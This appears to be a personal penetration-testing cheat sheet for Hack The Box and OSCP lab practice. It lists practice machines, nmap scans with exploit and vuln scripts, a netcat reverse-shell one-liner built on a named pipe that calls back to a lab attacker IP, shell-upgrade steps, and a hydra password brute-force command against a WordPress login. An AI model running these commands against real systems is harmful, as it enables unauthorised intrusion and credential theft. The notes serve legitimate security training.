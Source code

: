 # HTB boxes
- [x] Lame
- [x] Beep
- [ ] Bastard
- [ ] Grandpa/Granny
- [x] Mirai
- [x] Solidstate
- [ ] Jeeves
- [ ] Tally (Much harder than anything on OSCP, but you've gotta get used to windows)
- [x] Bashed
- [x] Nibbles
- [ ] Sense
- [x] Valentine
- [ ] Bart (Again, same issue but really get used to windows)
- [ ] Chatterbox // low priv shell
- [ ] Popcorn // low priv shell
- [x] Haircut
- [ ] Nineveh
- [ ] Shocker
- [ ] Cronos
- [ ] Arctic
- [ ] Optimum
- [ ] Davel

### Burp config

- set proxy to <htb-ip>:1337 redirect to <active-machine-ip>:80 to view terminal stuff in burp.

### nmaps

nmap -sV --script=exploit,external,vuln,auth,default -oN nmap-version-exploits.txt 10.11.1.220

nmap -sV --reason --dns-server 10.11.1.220 -oN nmap-versions.txt 10.11.1.220

nmap -sC -sV -oA


### getting an actual terminal

#### 1

`victim$ mknod /tmp/backpipe p`

`victim$ /bin/sh 0</tmp/backpipe | nc 10.10.14.9 445 1>/tmp/backpipe `

#### 2

maybe set `TERM=xterm`

to edit the file `^Z` to background the shell.

now `stty raw -echo` then `fg` the shell then hit enter a few times.

### assorted

- hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 32 -I
- searchsploit -x to view
- searchsploit -p copies to clipboard
- gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gouster-2.3-medium.txt -x php,html,txt
